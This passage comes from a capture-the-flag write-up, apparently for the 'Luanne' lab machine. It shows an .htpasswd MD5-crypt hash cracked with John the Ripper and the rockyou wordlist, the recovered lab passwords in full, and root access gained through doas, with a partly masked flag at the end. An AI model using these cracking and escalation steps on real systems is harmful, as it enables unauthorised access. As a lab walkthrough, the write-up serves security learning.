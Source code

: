 ```diff
--rw-r--r-- 1 x00tex x00tex   47 Sep 16 23:44 .htpasswd
 -rw-r--r-- 1 x00tex x00tex  378 Sep 16 20:33 index.html

❯ cat .htpasswd
+webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
```

* inside the tar archive there is a server backup data and also the `.htpasswd` file with same username but this time the hash is diffrent.

#### john
```diff
❯ echo 'webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.' >> hash

❯ john hash -w=/usr/share/wordlists/rockyou.txt
Loaded 2 password hashes with 2 different salts (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Remaining 1 password hash

+littlebear       (webapi_user)

Session completed

❯ john hash --show
webapi_user:iamthebest
+webapi_user:littlebear

2 password hashes cracked, 0 left
```

* we get a new password.
* try su to root but this time user `r.michaels` don't have su rights.

		luanne$ su - root
		su: You are not listed in the correct secondary group (wheel) to su root.
		su: Sorry: Authentication error

* try `doas` and this time it worked.

# Root escalation

```diff
+luanne$ doas -u root /bin/sh
+Password: littlebear
# id
+uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
# cd /root
# cat root.txt
7a9b5c20************************
```